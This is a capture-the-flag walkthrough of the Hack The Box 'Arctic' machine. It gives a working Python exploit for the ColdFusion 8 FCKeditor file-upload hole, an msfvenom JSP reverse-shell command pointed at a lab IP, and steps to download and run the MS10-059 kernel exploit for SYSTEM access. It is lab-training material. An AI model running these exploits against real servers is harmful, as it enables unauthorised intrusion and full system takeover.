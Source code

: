 # [Arctic](https://app.hackthebox.eu/machines/9) 

- Another interesting approach: https://teckk2.github.io/writeup/2017/12/27/Arctic.html

Start off with a quick `nmap`:

![nmap](./arctic/nmap.png)

What is the `fmtp` service on port 8500? Check `searchsploit`:

![searchsploit](./arctic/searchsploit.png)

No luck... Try connecting to it raw:

![wget](./arctic/wget.png)

Okay, so this service is a webserver of sorts? Here is `index.html`:

```html
<html>
<head>
<title>Index of /</title></head><body bgcolor="#ffffff">
<h1>Index of /</h1><br><hr><pre><a href="CFIDE/">CFIDE/</a>               <i>dir</i>   03/22/17 08:52 μμ
<a href="cfdocs/">cfdocs/</a>              <i>dir</i>   03/22/17 08:55 μμ
</pre><hr></html>
```

Here is what the browser shows:

![index](./arctic/index.png)

Here is a look inside `CFIDE` and `cfdocs`:

![cfide](./arctic/cfide.png)

![cfdocs](./arctic/cfdocs.png)

The folder `administrator` under `CFIDE` is interesting... Browsing to that page gives the following:

![administrator](./arctic/administrator.png)

So this application is Adobe Cold Fusion version 8? Try `searchsploit` again...

![searchsploit2](./arctic/searchsploit2.png)

Check out the arbitrary file upload and execution exploit for ColdFusion 8.0.1 at https://www.exploit-db.com/exploits/16788:

![exploitdb](./arctic/exploitdb.png)

According to exploitDB, there is a nice Metasploit module for this (https://www.rapid7.com/db/modules/exploit/windows/http/coldfusion_fckeditor)... Write it in Python instead :smile::

```python
import sys
import requests

UPLOAD_PATH = '/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm'
TRIGGER_PATH = '/userfiles/file/'

if sys.version_info.major != 3:
    print('requires Python3')
    exit(-1)

if len(sys.argv) != 4:
    print(f'usage: python3 {sys.argv[0]} <ip> <port> <file>')
    exit(-1)

# upload payload
TARGET = f'http://{sys.argv[1]}:{sys.argv[2]}{UPLOAD_PATH}'
print(f'[*] uploading {sys.argv[3]} to {TARGET} ...')
r = requests.post(TARGET, 
                  files={
                      'newfile': (
                          sys.argv[3].replace('.jsp', '.txt'), 
                          open(sys.argv[3], 'rb'), 
                          'application/x-java-archive'
                      )
                  }, 
                  params={
                      'Command': 'FileUpload', 
                      'Type': 'File', 
                      'CurrentFolder': f'/{sys.argv[3]}\x00'
                  })
if (r.status_code != requests.codes.ok) or ('OnUploadCompleted' not in r.text):
    print('[-] ERROR')
    print(r.text)
    exit(-1)
print('[+] DONE')

# trigger payload
TARGET = f"http://{sys.argv[1]}:{sys.argv[2]}{TRIGGER_PATH}{sys.argv[3]}"
print(f'[*] triggering payload at {TARGET} ...')
r = requests.get(TARGET)
if r.status_code != requests.codes.ok:
    print('[-] ERROR')
    print(r.text)
    exit(-1)
print('[+] DONE')
```

Need a JSP payload (https://netsec.ws/?p=331):

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=6969 -f raw > bubba.jsp
```

And then Execute it:

![exploit1](./arctic/exploit1.png)

And that gives the user shell! Get the user flag:

![user](./arctic/user.png)

Next is privilege escalation. First step is looking for _easy_ kernel known vulnerabilities. Need system and hotfix info to do this:

![systeminfo](./arctic/systeminfo.png)

So there are no hotfixes installed and this is a Windows Server 2008 R2 for x64-based Systems. Use the tool `wes`  (https://github.com/bitsadmin/wesng) to look for kernel vulnerabilities:

![wes](./arctic/wes.png)

Use the CSV output to sort the vulnerabilities by date (earlier should work better):

![sort](./arctic/sort.png)

Starting with the first, CVE-2010-2554, leads to the following with some Googling:

- exploitDB page: https://www.exploit-db.com/exploits/14610
- PoC source code download link: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/14610.zip
- Pre-compiled PoC binary: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
- Exploit code walkthrough: https://itm4n.github.io/chimichurri-reloaded/

Exploit code walkthrough says the user needs `SeImpersonatePrivilege` for it to work:

![whoami](./arctic/whoami.png)

So far so good. Download the compiled PoC binary with `axel`:

```bash
axel -a -n 20 https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

Edit the Python3 ColdFusion8 exploit code to just upload the `MS10-059.exe` file but *not* trigger it as a callback (comment out the lines after `# trigger payload`) and use it to upload `MS10-059.exe` renammed as `MS10-059.jsp`:

![upload](./arctic/upload.png)

Then locate the file on the target system and rename it:

![locate](./arctic/locate.png)

After running the binary without any arguments, the following usage statement is given:

```
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```

So set up another listener and test it out:

![exploit2](./arctic/exploit2.png) 

And thats system!

![root](./arctic/system.png)

